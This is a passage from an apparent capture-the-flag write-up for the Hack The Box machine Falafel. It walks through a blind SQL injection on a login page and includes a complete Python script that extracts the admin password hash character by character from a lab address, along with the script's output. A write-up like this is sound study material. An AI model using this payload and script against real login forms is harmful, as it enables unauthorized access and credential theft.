 I tested with several characters and it turned out that `0` is the first character of the password.
I can reproduce it with the following username : `admin' AND substr(password,1,1)='0'-- -`.

```sql
SELECT * FROM USERS WHERE username='admin' AND substr(password,1,1)='0'-- -' AND password='bokchee'

> SELECT * FROM USERS WHERE username='admin' AND substr(password,1,1)='0'
```

Then the response is "Wrong identification" which implies that there's no error on the SQL query.

Let's build a python script to automate this process.

```python
┌──(kali㉿kali)-[~/htb/falafel]
└─$ cat sql-inject.py 
import requests

chars = "0123456789abcdef"

def GetSQL(i,c):
    return "admin' and substr(password,%s,1) = '%s'-- -" %(i,c)

length = 0
while True:
    length += 1
    query = f"admin' AND LENGTH(password)={length}-- -"
    payload = {'username':query, 'password':'bokchee'}
    r = requests.post('http://10.10.10.73/login.php', data=payload)
    if "Wrong identification" in r.text:
        print("The length of the password is :", length)
        break

password = ""
for i in range(1, length+1):
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection,'password':'bokchee'}
        r = requests.post('http://10.10.10.73/login.php', data=payload)
        if "Wrong identification" in r.text:
            print(c, end=', ')
            password += c

print("Found password is :", password)
```

```bash
┌──(kali㉿kali)-[~/htb/falafel]
└─$ python sql-inject.py
The length of the password is : 32
0, e, 4, 6, 2, 0, 9, 6, 9, 3, 1, 9, 0, 6, 5, 0, 7, 1, 1, 9, 5, 6, 2, 9, 8, 8, 7, 3, 6, 8, 5, 4, Found password is : 0e462096931906507119562988736854
```

The retrieved password is `0e462096931906507119562988736854`.
Since it looks like an MD5 hash. Let's crack the hash.
